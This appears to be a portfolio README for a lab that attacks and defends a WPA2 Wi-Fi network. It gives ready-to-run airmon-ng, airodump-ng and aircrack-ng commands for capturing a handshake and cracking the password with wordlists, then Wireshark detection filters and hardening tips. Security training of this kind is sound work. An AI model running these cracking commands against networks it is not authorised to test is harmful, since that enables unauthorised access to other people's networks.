 # Wi-Fi Security Analysis: Attacking & Defending WPA2 Networks

## 📌 Project Overview
This project demonstrates a **Wi-Fi security assessment** by attacking a WPA2-PSK network and implementing defensive measures to protect against real-world threats. 

✅ **Attack Scenario:** Capturing a WPA2 handshake and cracking the Wi-Fi password.  
✅ **Detection Methods:** Wireshark analysis, router logs, and intrusion detection tools.  
✅ **Defensive Measures:** WPA2-AES, MAC filtering, and security hardening.

---

## 🔥 1. Attack Execution: Capturing WPA2 Handshake

### **1.1 Setup: Enable Monitor Mode on TL Adapter**
```bash
sudo airmon-ng check kill  
sudo airmon-ng start wlan0  
iwconfig
```
![Monitor Mode](screenshots/Monitor_mode.png)

### **1.2 Scan for Networks & Identify Target**
```bash
sudo airodump-ng wlan0  
```
![Network Scan](screenshots/Network_Scan.png)

### **1.3 Capture WPA2 Handshake**
```bash
sudo airodump-ng -c 5 --bssid 1C:3B:F3:73:99:4C -w capture wlan0  
```
![Handshake Capture](screenshots/Handshake_Capture.png)

### **1.4 Verify Handshake in Aircrack-ng**
```bash
sudo aircrack-ng capture-05.cap  
```
![Handshake Verification](screenshots/Handshake_Verification.png)

---

## 🕵️ 2. Detection: Identifying the Attack

### **2.1 Analyze Handshake in Wireshark**
- Open `capture-05.cap` in Wireshark.
- Apply filter: `eapol`
![EAPOL Handshake](screenshots/EAPOL_Handshake.png)

### **2.2 Expand Key Details in Wireshark**
- Expand **802.1X Authentication** → **Key Information**
![EAPOL Details](screenshots/EAPOL_Details.png)

### **2.3 Detect Deauthentication Attack in Wireshark**
- Apply filter: `wlan.fc.type_subtype == 0x0c`
![Wireshark Detection](screenshots/Wireshark_Detection.png)

---

## 🔓 3. Cracking WPA2 Password

### **3.1 Run Aircrack-ng with RockYou Wordlist**
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 1C:3B:F3:73:99:4C capture-05.cap
```
![Password Cracking](screenshots/Password_Cracking.png)

### **3.2 If RockYou Fails, Use a Custom Wordlist**
```bash
echo -e "Test12345!\nTest12345\ntest12345!" > custom.txt  
sudo aircrack-ng -w custom.txt -b 1C:3B:F3:73:99:4C capture-05.cap  
```
![Cracked Password](screenshots/Cracked_Password.png)

---

## 🛡️ 4. Defense Strategies: Securing Wi-Fi Against Attacks

### **4.1 Strengthen WPA2 Security**
- **Set Encryption:** WPA2-PSK with AES (**never TKIP**).
- **Disable WPS** (to prevent WPS PIN attacks).
![Secured Wi-Fi Settings](screenshots/Secured_WiFi_Settings.png)

### **4.2 Enable MAC Filtering**
- **Whitelist trusted MAC addresses** in router settings.
- **Block unknown devices from connecting.**

---

## 🎯 Why This Project Matters for SOC Teams
🔹 **Real-World Threat:** Wi-Fi attacks are used in penetration testing and adversary simulations.  
🔹 **SOC Detection Relevance:** SOC analysts monitor for unauthorized deauth attacks and suspicious EAPOL packets.  
🔹 **Defensive Hardening:** This project demonstrates how to **detect & mitigate Wi-Fi attacks effectively**.

---

## 📌 Conclusion
This project **simulates a real-world Wi-Fi attack** and **demonstrates key cybersecurity defense mechanisms**. It is valuable for anyone looking to break into **SOC Level 1 roles, penetration testing, or cybersecurity research.**

**Next Steps:** 
- Implement **Wi-Fi Intrusion Detection** using ELK or Splunk.
- Automate attack detection with Python scripts.

🔗 **Follow my cybersecurity journey on LinkedIn & GitHub!** 🚀

